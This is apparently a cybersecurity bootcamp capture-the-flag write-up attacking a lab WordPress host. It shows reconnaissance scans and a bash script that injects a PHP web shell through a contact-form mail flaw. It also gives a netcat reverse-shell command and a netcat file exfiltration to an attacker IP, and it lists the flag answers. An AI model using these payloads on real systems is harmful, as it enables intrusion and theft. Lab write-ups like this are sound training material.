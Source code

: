# Attacking Target 2

## Table of Contents
- [Discovering Vulnerabilities](#discovering-vulnerabilities)
- [Exploiting Discovered Vulnerability](#exploiting-discovered-vulnerability)
- [Flags](#flags)

### Discovering Vulnerabilities

- `nmap` scan
  - An nmap scan presented all abvailable ports.
    - Port 22 (SSH)
    - Port 80 (HTTP)
    - Port 111 (rpcbind)
    - Port 139 (netbios-ssn)
    - Port 445 (netbios-ssn)
  - `nmap -sS -sV 192.168.1.115`
- ![nmapscan](./Images/Target2/nmap%20scan%20target2.JPG)

- `nikto` scan
  - A nikto scan revealed all dangerous files/CGIs, outdated server software and other problems.
- ![niktoscan](./Images/Target2/nikto%20results.JPG)

- `gobuster` scan
  - A gobuster scan brute-forced all available URI's and DNS subdomains.
- ![gobusterscan](./Images/Target2/gobuster%20scan.JPG)

### Exploiting Discovered Vulnerability

-  A Contact Form 7 vulnerability was found.
  - This allowed an `exploit.sh` bash script to be run that allowed a `backdoor.php` file to be uploaded to the WordPress directory of the server.
```bash
#!/bin/bash
# Lovingly borrowed from: https://github.com/coding-boot-camp/cybersecurity-v2/new/master/1-Lesson-Plans/24-Final-Project/Activities/Day-1/Unsolved

TARGET=http://192.168.1.15/contact.php

DOCROOT=/var/www/html
FILENAME=backdoor.php
LOCATION=$DOCROOT/$FILENAME

STATUS=$(curl -s \
              --data-urlencode "name=Hackerman" \
              --data-urlencode "email=\"hackerman\\\" -oQ/tmp -X$LOCATION blah\"@badguy.com" \
              --data-urlencode "message=<?php echo shell_exec(\$_GET['cmd']); ?>" \
              --data-urlencode "action=submit" \
              $TARGET | sed -r '146!d')

if grep 'instantiate' &>/dev/null <<<"$STATUS"; then
  echo "[+] Check ${LOCATION}?cmd=[shell command, e.g. id]"
else
  echo "[!] Exploit failed"
fi
```

- The `backdoor.php` file allowed for execution of command injection attacks on the target website.
  - `http://<Target 2 URL>/backdoor.php?cmd=<CMD>` can now be run in the Kali browser that uses `backdoor.php` to open a shell session on the target.
  - `nc -lnvp 4444` was used on the Kali terminal to open a listening port on port `4444`.
  - On the Kali browser `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash` was used and a shell session was obtained on the target.
- ![shellsession](./Images/Target2/shell%20session.JPG)

### Flags

- `flag1.txt`: `a2c1f66d2b8051bd3a5874b5b6e43e21`
  - **Exploit Used**
    - Discovery of website directory listing.
    - After running a `gobuster` scan, the directory listing was found for the target and the flag was found at `http://192.168.1.115/vendor/PATH`
  - Commands run:
    - `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://192.168.1.115`
    - `http://192.168.1.115/vendor/PATH` (In Kali web browser.)
- ![flag1](./Images/Target2/flag%201.JPG)

- `flag2.txt`: `6a8ed560f0b5358ecf844108048eb337`
  - **Exploit Used**
    - Contact Form 7 vulnerability.
    - The `exploit.sh` script was run and installed a `backdoor.php` file on the target WordPress server that allowed a shell session on the target and the flag was found in `/var/www/flag2.txt`.
  - Commands run:
    - `bash ./exploit.sh`
    - `nc -lnvp 4444`
    - `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash' (In Kali web browser.)
    - `cd /var/www`
    - `cat flag2.txt`
- ![flag2](./Images/Target2/flag2.JPG)

- `flag3.png`: `a0f568aa9de277887f37730d71520d9b`
  - **Exploit Used**
    - Contact Form 7 vulnerability.
    - The `exploit.sh` script was run and installed a `backdoor.php` file on the target WordPress server that allowed a shell session on the target and the flag was found in `/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png`.
    - Netcat was used to exfiltrate the file to the attacking machine.
  - Commands run:
    - `bash ./exploit.sh`
    - `nc -lnvp 4444`
    - `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash` (In Kali web browser.)
    - `find /var/www -type f -iname 'flag*'`
    - `nc -l -p 4444 > flag3.png` (recieving)
    - `cat flag3.png | netcat 192.168.1.90 4444` (sending)
- ![flag3](./Images/Target2/flag3.JPG)
